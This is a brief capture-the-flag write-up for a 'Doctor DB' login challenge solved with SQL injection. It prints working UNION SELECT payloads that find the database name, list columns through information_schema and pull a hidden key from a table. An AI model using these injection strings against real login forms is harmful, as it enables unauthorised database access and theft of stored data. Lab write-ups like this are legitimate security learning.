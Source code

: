 >Doctor DB (200)

This was a basic SQLi challenge. It was a login challenge, where the flag was
hidden in the username field of another user, if I remember correctly.

Since I can't access the level once I've solved it, here are some of the
queries I used to solve it. (I didn't have sqlmap available so had to
do it by trial and error).

`doctor' UNION SELECT 1,(SELECT database()),3 #`

This makes the login query something like:
```sql
SELECT * FROM users WHERE username='doctor' UNION SELECT 1,(SELECT database()),3 # AND password=''
```

There were 3 columns in the user table, with the middle column (username) being displayed.

Getting the column names:

`doctor' UNION SELECT 1,(SELECT column_name FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema' LIMIT 0,1),3 #`

###Winning Query:

`doctor' UNION SELECT 1,(SELECT user_key from k_e_y_s LIMIT 9,1),3 #`

I'm habitual of creating a simple html page to exploit SQLi levels. The one 
I used for cracking this is level is atached as `index.html`.